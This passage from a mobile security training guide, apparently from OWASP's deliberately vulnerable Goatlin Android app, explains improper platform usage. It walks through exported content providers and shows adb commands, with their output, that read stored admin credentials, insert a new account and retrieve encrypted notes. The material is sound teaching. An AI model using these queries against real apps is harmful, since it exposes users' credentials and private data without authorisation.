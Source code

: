 M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications_".
Content providers are mostly used to share data between Android applications.
Such as Activities, Services or Receivers, Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can lead the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the Goatlin app, we can identify
that a Content provider is defined with the name `.AccountProvider` and the
exported tag is set to true. Here is an extract of the `AndroidManifest` file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.vulnerablekotlinapp.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing to query the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the Goatlin app:

```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat
```

Below you can see this is action

<center>
    <iframe width="560" height="315" src="https://www.youtube.com/embed/faaYUjDXPSQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
    <p><a href="https://www.youtube.com/watch?v=faaYUjDXPSQ">Watch on Youtube</a></p>
</center>

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.vulnerablekotlinapp.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm
Interaction] [6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb

